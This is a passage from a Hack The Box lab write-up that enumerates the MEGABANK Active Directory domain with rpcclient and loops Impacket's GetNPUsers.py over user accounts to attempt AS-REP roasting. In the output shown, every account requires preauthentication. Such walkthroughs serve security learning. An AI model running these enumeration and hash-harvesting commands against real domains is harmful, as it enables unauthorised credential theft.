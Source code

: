 Plenty of accounts. Let's see what other information we can find.

```
rpcclient $> getdompwinfo
min_password_length: 7
password_properties: 0x00000000
```

Interesting. The minimum password length is 7. I'm assuming that it's a simple password looking at `password_properties`.

What else?

```
rpcclient $> querydominfo
Domain:         MEGABANK
Server:
Comment:
Total Users:    51
Total Groups:   0
Total Aliases:  23
Sequence No:    1
Force Logoff:   -1
Domain Server State:    0x1
Server Role:    ROLE_DOMAIN_PDC
Unknown 3:      0x1
```

So, the domain is really `MEGABANK`. Armed with the list of users, let's see if we are lucky enough to obtain their TGT hashes. Maybe some of them have their "Do not require Kerberos preauthentication" set?

```
# for user in $(cat users); do python3 GetNPUsers.py -format john -no-pass "megabank/$user" -dc-ip 10.10.10.172; done
Impacket v0.9.20 - Copyright 2019 SecureAuth Corporation

[*] Getting TGT for AAD_987d7f2f57d2
[-] User AAD_987d7f2f57d2 doesn't have UF_DONT_REQUIRE_PREAUTH set
Impacket v0.9.20 - Copyright 2019 SecureAuth Corporation

[*] Getting TGT for mhope
[-] User mhope doesn't have UF_DONT_REQUIRE_PREAUTH set
Impacket v0.9.20 - Copyright 2019 SecureAuth Corporation

[*] Getting TGT for SABatchJobs
[-] User SABatchJobs doesn't have UF_DONT_REQUIRE_PREAUTH set
Impacket v0.9.20 - Copyright 2019 SecureAuth Corporation

[*] Getting TGT for svc-ata
[-] User svc-ata doesn't have UF_DONT_REQUIRE_PREAUTH set
Impacket v0.9.20 - Copyright 2019 SecureAuth Corporation

[*] Getting TGT for svc-bexec
[-] User svc-bexec doesn't have UF_DONT_REQUIRE_PREAUTH set
Impacket v0.9.20 - Copyright 2019 SecureAuth Corporation

[*] Getting TGT for svc-netapp
[-] User svc-netapp doesn't have UF_DONT_REQUIRE_PREAUTH set
Impacket v0.9.20 - Copyright 2019 SecureAuth Corporation

[*] Getting TGT for dgalanos
[-] User dgalanos doesn't have UF_DONT_REQUIRE_PREAUTH set
Impacket v0.9.20 - Copyright 2019 SecureAuth Corporation

[*] Getting TGT for roleary
[-] User roleary doesn't have UF_DONT_REQUIRE_PREAUTH set
```

[1]: https://www.hackthebox.eu/home/machines/profile/223
[2]: https://www.hackthebox.eu/home/users/profile/1190
[3]: https://www.hackthebox.eu/